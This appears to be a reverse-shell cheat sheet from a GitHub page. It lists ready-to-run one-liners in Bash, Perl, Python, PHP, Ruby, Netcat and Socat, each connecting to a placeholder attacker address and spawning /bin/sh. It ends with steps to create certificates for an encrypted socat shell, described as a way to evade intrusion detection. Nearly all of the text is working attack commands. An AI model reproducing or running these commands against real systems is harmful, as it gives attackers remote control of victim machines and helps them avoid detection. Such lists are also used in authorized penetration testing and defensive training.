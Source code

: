 ### Bash

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### Perl

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Ruby

```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat

```
nc -e /bin/sh 10.0.0.1 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

### Socat

```
socat TCP4:10.0.0.1:1234 EXEC:/bin/bash
```

### SSL Socat

Using cryptography helps to evade some types of IDS. First we need to create the certificates in out attacking machine.

```
openssl req -newkey rsa:2048 -nodes -keyout rev_shell.key -x509 -days 362 -out rev_shell.crt
cat rev_shell.key rev_shell.crt > rev_shell.pem
```
